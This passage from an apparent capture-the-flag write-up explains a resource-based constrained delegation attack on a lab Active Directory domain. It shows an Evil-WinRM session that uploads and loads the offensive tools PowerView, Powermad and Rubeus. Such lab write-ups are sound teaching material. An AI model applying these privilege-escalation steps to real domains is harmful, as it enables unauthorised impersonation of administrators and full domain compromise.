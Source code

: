 ![image-20220527143212616](https://0xdfimages.gitlab.io/img/image-20220527143212616.png)

### Get Domain TGT

[This video](https://www.youtube.com/watch?v=RUbADHcBLKg) from SpectorOps shows how to abuse this privilege to get full domain access, and is worth a watch:

[This Gist](https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff#file-rbcd_demo-ps1) also has the commands.

I’m going to abuse resource-based constrained delegation. First I’ll add a fake computer to the domain under my control. Then I can act as the DC to request Kerberos tickets for the fake computer giving the ability to impersonate other accounts, like Administrator. For this to work, I’ll need an authenticated user who can add machines to the domain (by default, any user can add up to 10). This is configured in the `ms-ds-machineaccountquota` attribute, which needs to be larger than 0. Finally, I need write privileges over a domain joined computer (which `GenericALL` on the DC gets me.)

#### Pull in Support Scripts / Exe

I’ll need three scripts to complete this attack:
- [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
- [PowerMad.ps1](https://github.com/Kevin-Robertson/Powermad)
- [Rubeus.exe](https://github.com/GhostPack/Rubeus) (pre-compiled exes from [SharpCollection](https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.5_x64))

I’ll upload these and import the two PowerShell scripts into my session:

```
*Evil-WinRM* PS C:\programdata> upload /opt/PowerSploit/Recon/PowerView.ps1
Info: Uploading /opt/PowerSploit/Recon/PowerView.ps1 to C:\programdata\PowerView.ps1
                                                    
Data: 1027036 bytes of 1027036 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\programdata> upload /opt/Powermad/Powermad.ps1
Info: Uploading /opt/Powermad/Powermad.ps1 to C:\programdata\Powermad.ps1

Data: 180780 bytes of 180780 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\programdata> upload /opt/SharpCollection/NetFramework_4.5_x64/Rubeus.exe
Info: Uploading /opt/SharpCollection/NetFramework_4.5_x64/Rubeus.exe to C:\programdata\Rubeus.exe
                                                             
Data: 369320 bytes of 369320 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\programdata> . .\PowerView.ps1
*Evil-WinRM* PS C:\programdata> . .\Powermad.ps1

```

#### Verify Environment

I’ll need to know the administrator on DC, which Bloodhound tells me is administrator@support.htb:
